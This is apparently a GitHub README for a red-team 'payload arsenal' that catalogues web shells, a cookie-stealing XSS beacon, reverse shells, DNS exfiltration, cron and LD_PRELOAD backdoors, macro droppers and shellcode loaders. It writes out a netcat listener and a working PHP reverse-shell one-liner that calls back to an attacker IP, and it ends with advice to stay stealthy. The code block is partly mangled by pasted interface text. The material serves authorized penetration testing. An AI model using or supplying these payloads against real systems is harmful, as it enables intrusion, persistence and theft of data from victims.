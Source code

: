 # 💣 Dharma-Tools Payloads

This folder contains **post-exploitation payloads** designed for red team engagements, penetration testing, adversary simulation, and offensive research.

All payloads are designed for **educational use in authorized environments only**.

---

## 📂 Payload Categories

| Category       | Description                                                                 |
|----------------|-----------------------------------------------------------------------------|
| [`web/`](./web)          | Uploadable PHP shells, JavaScript beacons, polyglots                          |
| [`windows/`](./windows)      | PowerShell reverse shells, DNS exfil, batch persistence                     |
| [`linux/`](./linux)         | Bash shells, cronjob persistence, LD_PRELOAD privilege escalation payloads   |
| [`macros/`](./macros)        | Office VBA/XLM macro droppers and command exec vectors                      |
| [`obfuscation/`](./obfuscation)  | Base64-encoded, staged, or stealth variants of other payloads                |
| [`loaders/`](./loaders)       | Binary and DLL shellcode loaders for manual injection or C2 deployment      |

---

## 🔍 Highlights

### ✅ `web/`

| File                        | Description                          |
|-----------------------------|--------------------------------------|
| `reverse_shell.php`         | Full-featured PHP reverse shell (fsock) |
| `webshell_minimal.php`      | One-liner command exec with `$_GET['cmd']` |
| `php_polyglot.jpg.php`      | Image file that also executes PHP (filter bypass) |
| `xss_beacon.js`             | Exfiltrates cookies via fetch() to attacker-controlled domain |

---

### ✅ `windows/`

| File                      | Description                        |
|---------------------------|------------------------------------|
| `powershell_reverse.ps1`  | TCP reverse shell via .NET sockets |
| `dns_exfil.ps1`           | DNS-based exfiltration using `nslookup` |
| `add_user.bat`            | Creates local admin user           |

---

### ✅ `linux/`

| File                   | Description                        |
|------------------------|------------------------------------|
| `bash_reverse.sh`      | Netcat-style bash reverse shell    |
| `preload_root.c`       | LD_PRELOAD backdoor for root shell |
| `evil_cron.sh`         | Crontab backdoor to persist        |

---

### ✅ `macros/`

| File                  | Description                                  |
|-----------------------|----------------------------------------------|
| `reverse_macro.vba`   | VBA macro that launches PowerShell downloader |
| `obfuscated_excel.xlm`| Excel 4.0 macro payload (stealthy XLSB drop) |

---

### ✅ `obfuscation/`

| File                          | Description                                  |
|-------------------------------|----------------------------------------------|
| `php_reverse_shell_base64.php`| Obfuscated shell using `base64_decode()`     |
| `ps1_stage_encoded.txt`       | PowerShell reverse shell as base64 `-Enc`    |

---

### ✅ `loaders/`

| File                      | Description                               |
|---------------------------|-------------------------------------------|
| `shellcode_runner.c`      | C shellcode runner with mmap+exec support |
| `reflective_loader.dll`   | DLL stub for reflective injection (Cobalt Strike, manual shellcode) |

---

## 🧠 Usage Notes

### 📦 Reverse Shell Example (Linux)
1. On attacker machine:
   ```bash
   nc -lvnp 4444
On victim (via upload, RCE, macro, etc):

php
Copy
Edit
<?php $sock=fsockopen("10.10.14.3",4444); exec("/bin/sh -i <&3 >&3 2>&3"); ?>
⚠️ Legal Disclaimer
These payloads are provided for research and educational use in authorized environments only.

Do not use these tools against systems you do not own or have explicit permission to test.
Use responsibly under the laws and guidelines of your country and industry.

📜 Contributing & Attribution
Tools authored and maintained by Braxton Bailey for the Dharma-Tools project.

Some payloads adapted from:

pentestmonkey.net

Revshells.com

OffensiveSecurity labs

Personal red team experience

PRs welcome for new payloads or improved stealth.

🔮 Future Payload Ideas
ASP.NET reverse shell

Python/Flask dropper for internal API RCE

TLS-encrypted reverse shell (PHP + OpenSSL)

WAF-bypass JS beacon chaining WebSockets

🧠 Stay stealthy. Encrypt everything. Always validate shells with recon.

—
Dharma-Tools Payload Arsenal

